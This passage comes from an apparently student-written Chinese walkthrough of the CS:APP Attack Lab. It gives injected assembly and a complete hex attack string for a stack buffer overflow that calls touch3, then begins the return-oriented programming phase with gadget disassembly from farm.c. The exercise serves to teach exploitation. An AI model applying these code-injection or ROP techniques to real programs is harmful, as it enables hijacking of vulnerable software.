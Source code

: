```
sub $0x38,%rsp		# to 0x5561dc70
movq $0x4018fa,(%rsp)	# return to touch3
mov $0x5561dc90,%rdi   # save string address
ret
```

为什么要把rsp减去这么多呢,假设不分配额外的空间之间转到touch3,接下来的一系列操作(比如被调用者/调用者把原寄存器值保存到栈上)将会把保存在栈上原buf位置的cookie覆盖掉,那么传递cookie的指针就没有意义了.

最后得攻击代码:

```
48 83 ec 38 48 c7 04 24 /* 注入代码的编码,最后的30是凑数的 */
fa 18 40 00 48 c7 c7 90
dc 61 55 c3 30 30 30 30
35 39 62 39 39 37 66 61 /* cookie的值 */
00 00 00 00 00 00 00 00 /* 字符串末尾的结束标识 */
78 dc 61 55 00 00 00 00 
0a
```



## Part II: Return-Oriented Programming

这一次目标程序改为了rtarget,使用了栈随机化和限制可执行区域(不能执行栈上的代码),使得在ctarget上的策略不可行,而是使用ROP.

原理是通过buf溢出,用覆盖到栈上的一系列返回地址和数据来控制程序不断跳转到rtarget内原有的一些函数,并利用它们执行的某些操作来达到目的,就像是不停地"断章取义".

#### II.phase 4

这一阶段要求完成phase2同样的任务,即把cookie数值作为唯一的参数传递给touch2.

区别是,这一次没有办法注入代码,而是利用farm.c中提示的函数.

运行两条指令:

```
gcc -c -Og farm.c
objdump -d farm.o > farm.s
```

得到farm.s,观察到下面这两个函数(第一列不是真实的地址):

```
0000000000000014 <addval_273>:
  14:	f3 0f 1e fa          	endbr64 
  18:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  1e:	c3                   	retq   
...
000000000000001f <addval_219>:
  1f:	f3 0f 1e fa          	endbr64 
  23:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  29:	c3                   	retq   
```

断章取义出两个片段:
